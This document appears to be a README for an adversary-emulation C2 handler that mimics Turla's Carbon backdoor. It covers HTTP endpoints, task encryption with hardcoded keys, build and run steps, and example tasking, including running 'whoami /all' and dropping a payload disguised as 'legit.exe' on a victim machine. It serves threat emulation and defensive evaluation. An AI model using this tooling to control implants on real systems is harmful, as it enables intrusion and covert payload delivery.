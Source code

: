 # Carbon HTTP handler

The Carbon HTTP C2 handler is the server-side counterpart for the Carbon implant and is specifically designed to interact with it over HTTP.
The handler is configured to do the following:
- respond to basic heartbeat requests at `/` to indicate server availability.
- register a new implant at `/javascript/*` where * indicates any page when a `PHPSESSID` cookie is included.<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/)</sup>
- indicate that a session exists for an existing implant at `/javascript/*` where * indicates any page when a `PHPSESSID` cookie is included.
- return command instructions at `/javascript/view.php` when a `PHPSESSID` cookie is included.<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/)</sup>
- process posted data at `/javascript/` for requests with a valid `PHPSESSID` cookie.
- accept tasking from `./evalsC2client.py` and send to implants when requested.

## Components
The handler consists of an HTTP web server that listens on a specified address/port and serves the following URL endpoints:
- `GET /`, where the server is expecting heartbeat requests and will respond with `200 OK` if it is up.
- `GET /javascript/*`, where * indicates any page, where the server is listening for requests with a `PHPSESSID` cookie. The server will register new implant sessions using that `PHPSESSID` cookie value as the UUID or state that the session already exists.<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/)</sup>
- `GET /javascript/view.php`, where the server is listening for requests with a `PHPSESSID` cookie. The server will return an HTML document with a task embedded, currently encoded in base64.<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/)</sup>
- `POST /javascript/` or `POST /javascript/*`, where the server is listening for requests with a `PHPSESSID` cookie and data. The server will attempt to process data sent with the `POST` request. The correct format for this data is as follows:

| Field | Data Type | Description |
| ------------ | ----------- | ----------- |
| id | 4 byte int | the task ID |
| val | 4 byte int | number of files to send |
| tmp_filesize | 4 byte int | the length of the file being uploaded |
| tmp_content | bytes | the data of the file being uploaded |
| len_object_id | 4 byte int | the length of the implant's ID |
| object_id | bytes | the implant's ID |

## Encryption
When tasking the implant, the Carbon C2 handler will encrypt the task information before embedding the base64 blob in the response HTML. The tasking information is first encrypted using CAST128 and a randomly generated symmetric key. This key is then base64-encoded and encrypted using an RSA public key. The CAST128 ciphertext (with the IV prepended) is appended to the RSA ciphertext, and the result is base64-encoded and placed in the response HTML.<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/),[2](https://www.gdatasoftware.com/blog/2015/01/23926-analysis-of-project-cobra),[3](https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html)</sup>

The following RSA public key is used (DER base64-encoded):
```
MIIBCAKCAQEAxcvv98NsuX1Fuff9LDyV5fpp/MAbPvIYiMyoups9uhJz7v0E4MRCZQoM6w49rjmMTgsps3TJe8IR/6waEOTzevVBmma2LFd6Q+wlOnfdHFLa2YjCUyY1fvBP+7poc9U/hjf4mLs9hGih8wBUEPZtNYerA/aZM2bwpH7JjTXdQmCZ0Y7WalNn3me+Y9mEXQS16+uxXX3uEjB0zg9J+18H5dDRe40O91pLToAGKw/+s3bs9wuvLw0sArUQusC0T/msUOAawPgUDDv008w1PJblHRnDq6u1R1WD73VjDo1cGd/OfZH166JkVLiOXsrcgYL820cr1BuQuBoMthER5QUs7wIBEQ==
```

The 2048-bit RSA public/private key pair used for this implant was generated using Crypto++'s `GenerateRandomWithKeySize` method and then converted to DER format.
To convert from DER to PEM format, you can use the following `openssl` commands:
```
openssl rsa -RSAPublicKey_in -in rsa-public.key -inform DER -outform PEM -out public.pem -pubout
openssl rsa -in rsa-private.key -inform DER -outform PEM -out private.pem

# Used in c2 handler testing
openssl pkey -in private.pem -traditional -out privatepkcs1.pem 
```

When handling task output from the implant, the C2 handler will decrypt responses using the following hardcoded CAST-128 key:
```
f2d4560891bd948692c28d2a9391e7d9
```

Carbon DLL has used a similar encryption setup for C2 communication in the past<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/)</sup>, with additional components such as an intermediary signature block.

## Usage

### Building
You can build the control server binary with the following command:
```
go build -o controlServer main.go
```

### Configuration
To enable and configure the Carbon HTTP handler within the control server, edit the `config/handler_config.yml` from the main C2 server repo. Adjust the Carbon HTTP entry as needed.

Example:
```
carbonhttp:
    host: 10.0.2.4
    port: 80
    enabled: true
```

Run the `controlServer` binary as `sudo` and look for success messages in starting up the Carbon handler.
```
sudo ./controlServer
```

### Testing
Unit tests are available for this handler in the `carbon_http_test.go` file. If you would like to run these tests, use the command `sudo go test ./...` in the `evalsC2server` directory, and the unit tests for the Carbon handler will be performed.

If you wish to test this handler manually, these are some sample `curl` commands that might be useful:
- check that the server heartbeat functionality works:
```
curl http://10.0.2.4:80
```
- check that the server creates a session for a new implant, responds to an existing session, and returns basic tasking output
```
curl -b 'PHPSESSID=ValidUUID' http://10.0.2.4:80/javascript/view.php
```
- check that the server is responding with the correct HTTP status in the case of an error
```
curl -v http://10.0.2.4:80/javascript/somepage.php
```
- check that the server is able to process `POST` data correctly **(out of date)**
```
curl -X POST -b "PHPSESSID=ValidUUID" http://10.0.2.4:80/javascript/ -d '101 | 2 | 100 | result data | 200 | result data 2 | 16 | ValidUUID'
```

### Tasking
To submit a task for the to the C2 server, pass the task information to the REST API server in a JSON dictionary string containing the following fields<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/)</sup>:

| Field | Data Type | Description |
| ------------ | ----------- | ----------- |
| id | int | required, task ID |
| routing | string | optional, P2P routing blob |
| code | int | optional, task type code. Defaults to `0` if not provided. Can be from 1-99 |
| payload | string | optional, name of the server-side payload to deliver as part of the task. The file must reside in the `Resources/payloads/carbon` directory in the parent repository |
| payload_dest | string | optional, path to save the payload on the victim machine. Must be provided if passing in `payload` |
| cmd | string | required, the command to execute |

The C2 handler will take care of building the appropriate config file using the provided payload and app information.

Examples (`GUID` represents the ID of the implant to task:
```
# Task without a payload
./evalsC2client.py --set-task [UUID] '{"id": 1, "code": 0, "cmd": "whoami /all"}'

# Task with a payload
./evalsC2client.py --set-task [UUID] '{"id": 2, "code": 0, "payload": "sniffer.exe", "payload_dest": "C:\\Users\\Public\\legit.exe", "cmd": "C:\\Users\\Public\\legit.exe arg1 arg2"}'
```

### CTI References
1. https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/
2. https://www.gdatasoftware.com/blog/2015/01/23926-analysis-of-project-cobra
3. https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html
